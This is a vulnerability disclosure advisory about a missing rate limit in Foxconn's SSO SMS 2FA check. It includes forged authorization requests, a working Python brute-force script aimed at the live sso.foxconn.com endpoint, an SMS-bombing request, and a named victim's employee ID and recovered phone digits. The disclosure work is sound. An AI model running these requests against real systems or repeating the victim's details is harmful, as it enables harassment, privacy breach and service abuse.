


## Summary

A critical authentication logic flaw exists in the **Foxconn SSO (Single Sign-On)** system (`sso.foxconn.com`). The **2FA** (Two-Factor Authentication) process for "SMS Verification" requires users to input the last 4 digits of their phone number. However, the backend API `/Civet/LoginStandard/checkPhone` lacks **rate limiting** and **anti-automation** controls.

An attacker can forge an authentication link for any **employee ID** and use an automated brute-force script to iterate through all 10,000 possible combinations (0000–9999) of the "**last 4 digits**." As demonstrated, the correct digits can be disclosed in under **few seconds**. Once the digits are obtained, the API can be further abused to trigger high-frequency **SMS Bombing** against the victim's mobile device, as the system lacks an effective cooling period or risk control strategy.


## Affected Product
- **Vendor:** Foxconn
- **Product:** Central Authorization Center
- **Version:** Current as of 2025-11-20
- **Component:** SMS Verification Module
- **Domain:** sso.foxconn.com

**Note:** the vulnerability was confirmed in the live web application as of 2025-11-20. Since the application does not expose a version string, a specific version number could not be determined.


## Impact

* **Information Disclosure (PII):** Attackers can successfully recover the last four digits of the registered phone number for any employee, which can be used for targeted social engineering or identity theft.
* **Service Stability & Reputation:** Large-scale SMS bombing disrupts the availability of the 2FA service for legitimate users and damages the enterprise's reputation due to mass harassment.
* **Economic Loss to Enterprise:** Automated abuse of the SMS gateway leads to a significant and direct increase in telecommunication costs for Foxconn.


## CVSS v3.1 Score
**Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:L`

**Base Score:** **6.5 (Medium)**

- AV (Attack Vector): `Network`
- AC (Attack Complexity): `Low`
- PR (Privileges Required): `None`
- UI (User Interaction): `None`
- S (Scope): `Unchanged`
- C (Confidentiality): `Low`
- I (Integrity): `None`
- A (Availability): `Low`


## Reproduction Steps

When logging in to the Fuxue Baodian website, the two-factor authentication (2FA) page is as shown below:


After clicking "Trust APP", use BurpSuite to intercept the following GET request. The request data is as shown below:

```http
GET /connect/authorize?login_hint=F1245363&login_type=Mfa&client_id=fuxuebaodian&redirect_uri=https%3A//iedu.foxconn.com/third/icivet_2fa&response_type=code&scope=openid%20profile%20foxconn%20phone&response_mode=query&state=L3ByaXZhdGUvaG9tZS9ob21lUGFnZT9sYXN0Q29tcGFueUlkPS0x HTTP/1.1
Host: sso.foxconn.com
Cookie: sso.ui.loadtoken=CfDJ8J88RAttq7BHhHb6O7-9DWk7USMtomWCG2WhRy7FwYFsic2WRbXfDad5kPzQLEa3HP8frxWGo2r6DGDoiaLi485YdgnJXFNPmTohdzM7Z73OXGAkkoxYi8xMYrJX9k-0GrK6pVD-Ipsl01OkNh6bj9Q
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-TW,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://iedu.foxconn.com/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Modify the value of the request parameter `login_hint` (F1245363) in the above request to the victim's employee ID `F1245311`, and **forge** an identity authorization link:

```
https://sso.foxconn.com/connect/authorize?login_hint=F1245311&login_type=Mfa&client_id=fuxuebaodian&redirect_uri=https%3A//iedu.foxconn.com/third/icivet_2fa&response_type=code&scope=openid%20profile%20foxconn%20phone&response_mode=query&state=L3ByaXZhdGUvaG9tZS9ob21lUGFnZT9sYXN0Q29tcGFueUlkPS0x
```

Access this forged link in the browser, and after the server responds, the page display result is as shown below:



Then select the `SMS verification` method. Since the **last 4 digits of the victim's phone number** are unknown, enter `0007` here (from the data displayed on the page, it can be inferred that the last digit must be 7), and finally click the SMS send button.


From the request intercepted by BurpSuite, it can be seen that the API request used to determine whether the "last 4 digits of the phone number" are correct is as shown below:

```http
POST /Civet/LoginStandard/checkPhone HTTP/1.1
Host: sso.foxconn.com
Cookie: sso.ui.loadtoken=CfDJ8J88RAttq7BHhHb6O7-9DWk7USMtomWCG2WhRy7FwYFsic2WRbXfDad5kPzQLEa3HP8frxWGo2r6DGDoiaLi485YdgnJXFNPmTohdzM7Z73OXGAkkoxYi8xMYrJX9k-0GrK6pVD-Ipsl01OkNh6bj9Q
Content-Length: 271
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-TW,zh;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: https://sso.foxconn.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://sso.foxconn.com/Civet/Mfa/Login/Mfa?ReturnUrl=%2Fconnect%2Fauthorize%2Fcallback%3Flogin_hint%3DF1245311%26login_type%3DMfa%26client_id%3Dfuxuebaodian%26redirect_uri%3Dhttps%253A%252F%252Fiedu.foxconn.com%252Fthird%252Ficivet_2fa%26response_type%3Dcode%26scope%3Dopenid%2520profile%2520foxconn%2520phone%26response_mode%3Dquery%26state%3DL3ByaXZhdGUvaG9tZS9ob21lUGFnZT9sYXN0Q29tcGFueUlkPS0x
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

SmsUserId=F1245311&SmsPhoneMask=A47335E2D31180CDAEF59705B9F00C2C4FC59D98&SmsPhoneL4=0007&__RequestVerificationToken=CfDJ8J88RAttq7BHhHb6O7-9DWlxUB-YcEVJgY8AOH6QM47aEIzYeKFMYEbU0kwlRvO1Wm_GD5PpeDMYsJmbFkl3tgkXYYX9ySC_s8s9UUmqoDOlVp_zlLP_Vf_Gabu_2RiL7QgiKFxhpSpTq77I88BxNZ8
```

The server-side response result is as shown below:

```http
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 25 Nov 2025 09:13:32 GMT
Content-Type: application/json; charset=utf-8
Connection: keep-alive
x-dt-tracestate: 747dc706-46dc6e7f@dt
traceresponse: 00-9ebcb29c62799212c16d6e68154308bf-e631e43cce981d1a-01
Access-Control-Allow-Credentials: true
Content-Length: 61

{
  "result": -1,
  "msg": "手機號與綁定的手機號不一致"
}
```

Through the following Python automation script, the last 4 digits of the victim's (`F1245311`) phone number can be extremely quickly inferred:

```python
import asyncio
import aiohttp
from aiohttp.client_exceptions import ClientError
import time
from collections import deque
import signal
import requests
from bs4 import BeautifulSoup

# Target employee ID
employee_id = "F1245311"

# Obtain the corresponding __RequestVerificationToken, SmsPhoneMask, and Set-Cookie value based on the target employee ID
def get_params(employee_id):
    url = "https://sso.foxconn.com/Civet/Mfa/Login/Mfa"
    params = {
        "ReturnUrl": f"/connect/authorize/callback?login_hint={employee_id}&login_type=Mfa&client_id=fuxuebaodian"
                    "&redirect_uri=https%3A%2F%2Fiedu.foxconn.com%2Fthird%2Ficivet_2fa"
                    "&response_type=code&scope=openid%20profile%20foxconn%20phone"
                    "&response_mode=query"
                    "&state=L3ByaXZhdGUvaG9tZS9ob21lUGFnZT9sYXN0Q29tcGFueUlkPTc0NQ%3D%3D"
    }

    # Construct request headers
    headers = {
        "Host": "sso.foxconn.com",
        "Accept-Language": "en-US,en;q=0.9",
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) "
                    "AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,"
                "*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Sec-Fetch-Site": "same-site",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-User": "?1",
        "Sec-Fetch-Dest": "document",
        "Sec-Ch-Ua": '"Not_A Brand";v="99", "Chromium";v="142"',
        "Sec-Ch-Ua-Mobile": "?0",
        "Sec-Ch-Ua-Platform": '"macOS"',
        "Referer": "https://iedu.foxconn.com/",
        "Accept-Encoding": "gzip, deflate, br",
        "Priority": "u=0, i",
        "Connection": "keep-alive",
    }

    # Send GET request
    response = requests.get(url, headers=headers, params=params, timeout=10)

    # Ensure the response is normal
    if response.status_code == 200:
        soup = BeautifulSoup(response.text, "html.parser")

        token_input = soup.find("input", {"name": "__RequestVerificationToken"})
        phone_input = soup.find("input", {"name": "SmsPhoneMask"})

        request_verification_token = token_input["value"] if token_input else None
        sms_phon_mask = phone_input["value"] if phone_input else None

        set_cookie = response.headers.get("Set-Cookie")
        cookie_value = set_cookie.split(";", 1)[0] if set_cookie else None

        print("__RequestVerificationToken:", request_verification_token)
        print("SmsPhoneMask:", sms_phon_mask)
        print("Set-Cookie:", cookie_value, "\n")
        
        return request_verification_token, sms_phon_mask, cookie_value
    else:
        print(f"Request failed, status code: {response.status_code}")
        return None


request_verification_token, sms_phon_mask, cookie_value = get_params(employee_id=employee_id)

URL = "https://sso.foxconn.com/Civet/LoginStandard/checkPhone"

HEADERS = {
    "Host": "sso.foxconn.com",
    "Cookie": cookie_value,
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Accept": "*/*",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Origin": "https://sso.foxconn.com",
    "Referer": "https://sso.foxconn.com/",
}

BASE_DATA = {
    "SmsUserId": employee_id,
    "SmsPhoneMask": sms_phon_mask,
    "__RequestVerificationToken": request_verification_token,
}

FAIL_TEXT = "Phone number does not match the bound phone number"
FAIL_TEXT_CH = "手機號與綁定的手機號不一致"

# Concurrency level (adjust based on the target server's load capacity; too high may lead to rate limiting or IP blocking)
MAX_CONCURRENCY = 300

# Whether to enable simple retries (in case of network errors)
RETRY_COUNT = 2

found_event = asyncio.Event()      # Notify all tasks to exit after finding the correct one
start_time = time.time()
request_counter = 0
lock = asyncio.Lock()              # Protect the counter
speed_history = deque(maxlen=10)   # Recent 10 seconds' speeds for smoothing display

async def fetch(session: aiohttp.ClientSession, sms_l4: str, sem: asyncio.Semaphore):
    global request_counter
    
    data = BASE_DATA.copy()
    data["SmsPhoneL4"] = sms_l4

    for attempt in range(RETRY_COUNT + 1):
        try:
            async with sem:
                async with session.post(URL, headers=HEADERS, data=data, timeout=15) as resp:
                    text = await resp.text()

                    async with lock:
                        request_counter += 1

                    if FAIL_TEXT not in text and FAIL_TEXT_CH not in text:
                        print(f"\n[!] Successfully found! SmsPhoneL4 = {sms_l4}")
                        print(f"Response content: {text}")
                        found_event.set() # Notify to stop
                        return True

                    # Normal failure does not print too much log, only show progress
                    return False

        except (ClientError, asyncio.TimeoutError) as e:
            if attempt == RETRY_COUNT:
                print(f"\n[×] {sms_l4} Request failed ({e})")
            else:
                await asyncio.sleep(0.5 * (attempt + 1))  # Simple exponential backoff
    return False


async def speed_reporter():
    """Report real-time speed every second"""
    while not found_event.is_set():
        elapsed = time.time() - start_time
        async with lock:
            rps = request_counter / elapsed if elapsed > 0 else 0
        speed_history.append(rps)
        avg_rps = sum(speed_history) / len(speed_history)
        print(f"\r[→] Attempted: {request_counter:05d} | Instant: {rps:6.1f} req/s | Average: {avg_rps:6.1f} req/s", end="")
        await asyncio.sleep(1)


async def main():
    global start_time
    start_time = time.time()

    sem = asyncio.Semaphore(MAX_CONCURRENCY)
    timeout = aiohttp.ClientTimeout(total=20)
    connector = aiohttp.TCPConnector(limit=MAX_CONCURRENCY, limit_per_host=MAX_CONCURRENCY, ssl=False)
    
    async with aiohttp.ClientSession(headers=HEADERS, connector=connector, timeout=timeout) as session:
        # Start speed reporting task
        reporter_task = asyncio.create_task(speed_reporter())

        tasks = []
        for i in range(0, 10000): # 0000~9999
            sms_l4 = f"{i:04d}"
            task = asyncio.create_task(fetch(session, sms_l4, sem))
            tasks.append(task)

            # Check if found after creating each batch to exit early
            if found_event.is_set():
                break

        # Wait for all tasks to complete or result found
        await asyncio.gather(*tasks, return_exceptions=True)

        reporter_task.cancel()
        found_event.set() # Ensure reporting task exits

    total_time = time.time() - start_time
    print(f"\n\nScan completed! Total requests: {request_counter}, Time consumed: {total_time:.2f}s, Average speed: {request_counter/total_time:.1f} req/s\n\n")


if __name__ == "__main__":
    try:
        asyncio.run(main())
    except KeyboardInterrupt:
        print("\n\nUser interrupted, exiting.")
```

The program execution result is as shown below:

```
SmsPhoneMask: A47335E2D31180CDAEF59705B9F00C2C4FC59D98
Set-Cookie: sso.ui.loadtoken=CfDJ8J88RAttq7BHhHb6O7-9DWly10ByJ2waKigZygSe_krPYlFyvFD-odYiXgje1hyT9Qu-W06gQXRhaPqR8eMsf7QMODP6owKqKwFs889vOCrnKbHLE-0oHPBFf_7NcD_M3bk1dgUdAe0weSj-XtijpKc 

[→] Attempted: 01223 | Instant: 1200.1 req/s | Average:  600.0 req/s
[!] Successfully found! SmsPhoneL4 = 1957
Response content: {"result":1,"msg":"OK"}

Scan completed! Total requests: 10000, Time consumed: 5.59s, Average speed: 1787.3 req/s
```

The above program execution result outputs that the last 4 digits of the victim's (`F1245311`) phone number are: **1957**. This result can be verified on the frontend page, as shown in the following image, confirming that the result is correct:



After obtaining the correct last 4 digits (**1957**) of the victim's (`F1245311`) phone number, assign it to the parameter `SmsPhoneL4` in the following request body. It is found that **every very short period of time**, the following API request can be successfully called, successfully sending an SMS to the victim's phone.

```http
POST /Civet/LoginStandard/checkPhone HTTP/1.1
Host: sso.foxconn.com
Cookie: sso.ui.culture=c%3Dzh-TW%7Cuic%3Dzh-TW; sso.ui.loadtoken=CfDJ8J88RAttq7BHhHb6O7-9DWmMjvD29dHGbnLIZtP5zi0X-nnHFCXy1MX2YGNUXrjcKL-LnAkyXT_z69x3BF_ZToZ-pdf-Vubn6Ry4WD2bHPH63t2UDuCIwLq0on7hyve3mIdqLV_4HoYNkLqSR7cnAXw
Content-Length: 271
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: https://sso.foxconn.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://sso.foxconn.com/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

SmsUserId=F1245311&SmsPhoneMask=A47335E2D31180CDAEF59705B9F00C2C4FC59D98&SmsPhoneL4=1957&__RequestVerificationToken=CfDJ8J88RAttq7BHhHb6O7-9DWmbybM6A1_LJ9pi9aUyTqkm1jCj0s8vRGRk1VBJ_BEMmbonnlrqZZzz3djiyIHZFFPlBYCWo2366-Gk475FVKLPHHo9rryqZ4j8St5lKAUfCMuA_IOJqI_LCW5RSmXla48
```

The server-side response result is as shown below:

```http
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 27 Nov 2025 23:29:52 GMT
Content-Type: application/json; charset=utf-8
Connection: keep-alive
x-dt-tracestate: 747dc706-46dc6e7f@dt
traceresponse: 00-387592120336b8a951f913bf3370c4db-eb745c4d75f5aef7-01
Access-Control-Allow-Credentials: true
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Referrer-Policy: strict-origin
X-Content-Type-Options: nosniff
Permissions-Policy: geolocation=*,midi=(),sync-xhr=(),microphone=(),camera=(),magnetometer=(),gyroscope=(),fullscreen=(self),payment=()
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self' *.foxconn.com *.efoxconn.com ; script-src 'unsafe-inline' 'unsafe-eval' 'self' *.efoxconn.com *.foxconn.com *.foxconn.com.tw ; img-src 'self' *.foxconn.com *.foxconn.com.tw *.efoxconn.com data:; style-src 'self' 'unsafe-inline' *.foxconn.com *.foxconn.com.tw *.efoxconn.com; font-src 'self' *.foxconn.com *.foxconn.com.tw *.efoxconn.com data:; frame-src 'self' https://*.microsoft.com *.foxconn.com *.efoxconn.com jscall: ; connect-src 'self' *.foxconn.com *.foxconn.com.tw *.efoxconn.com ; object-src 'self' *.foxconn.com *.efoxconn.com blob:;frame-ancestors 'self' https://*.foxconn.com  https://*.microsoft.com https://*.efoxconn.com 
Content-Length: 23

{"result":1,"msg":"OK"}
```


## Remediation

* **Server-side Authorization Enforcement:** Validate that the `login_hint` parameter belongs to the currently authenticated session and cannot be arbitrarily modified by the client.
* **Sensitive Information Protection:** Do not reveal whether a provided phone number is correct. Return generic responses for both success and failure cases.
* **Implement mandatory cooldowns:** Enforce strict rate limits on both API calls and SMS triggers by IP and Employee ID, combined with a mandatory "cooling period" and CAPTCHA to effectively neutralize automated brute-force attempts and SMS bombing.


## Timeline
- **2025-11-20:** Vulnerability identified and initial proof-of-concept (PoC) verified.

- **2025-11-28:** Detailed vulnerability report submitted to the vendor for remediation. No acknowledgment or remediation confirmation received as of 2026-01-14.

- **2026-01-14:** Decision made to proceed with public disclosure following the expiration of a reasonable grace period.


## CWE References

* [CWE-799: Improper Control of Interaction Frequency](https://cwe.mitre.org/data/definitions/799.html)
* [CWE-639 — Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
